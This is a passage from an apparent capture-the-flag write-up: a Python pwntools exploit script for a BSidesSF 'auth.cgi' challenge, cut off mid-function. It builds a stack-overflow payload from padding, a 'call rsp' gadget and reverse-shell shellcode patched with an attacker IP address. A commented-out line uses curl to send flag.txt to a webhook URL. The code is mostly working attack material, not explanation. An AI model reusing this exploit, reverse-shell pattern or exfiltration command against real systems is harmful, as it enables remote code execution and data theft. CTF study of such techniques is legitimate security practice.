 {% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *
import requests
from subprocess import run

# =========================================================
#                          SETUP                         
# =========================================================
exe = './auth.cgi'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
VICTIM = 'http://cant-give-in-4130d4ca.challenges.bsidessf.net:8080/cgi-bin/auth.cgi'
# webhook = 'https://webhook.site/377ce48d-b5a1-45ae-ac52-b034cb0c8118'
ATTACKER = '159.223.33.240'

def initialize(env, argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, env=env)
    else:
        return process([exe] + argv, env=env)

gdbscript = '''
init-pwndbg
break *0x040175d
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ file auth.cgi 
# auth.cgi: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=c0053266aea9379cfe6a46dee6f69fb9c721f69e, for GNU/Linux 3.2.0, with debug_info, not stripped
# └──╼ [★]$ pwn checksec auth.cgi 
#     Arch:     amd64-64-little
#     RELRO:    No RELRO
#     Stack:    Canary found
#     NX:       NX unknown - GNU_STACK missing
#     PIE:      No PIE (0x400000)
#     Stack:    Executable
#     RWX:      Has RWX segments

def craft_payload() -> bytes:
    # cmd = f'curl {webhook}?flag=${{cat flag.txt}}'.encode()

    with open('shellcode.asm', 'r') as f:
        data = f.read()
        with open('tmp.asm', 'w') as t:
            # https://shell-storm.org/shellcode/files/shellcode-823.html
            t.write(data.replace('ATTACKER', ATTACKER))

    run("nasm -f bin tmp.asm -o shellcode.bin", shell=True, check=True)
    shellcode = open("shellcode.bin", "rb").read()

    payload = b''
    payload += cyclic(168)
    payload += p64(0x04127ca)   # call rsp
    payload += flat(shellcode)

    return payload

def debug_local():
```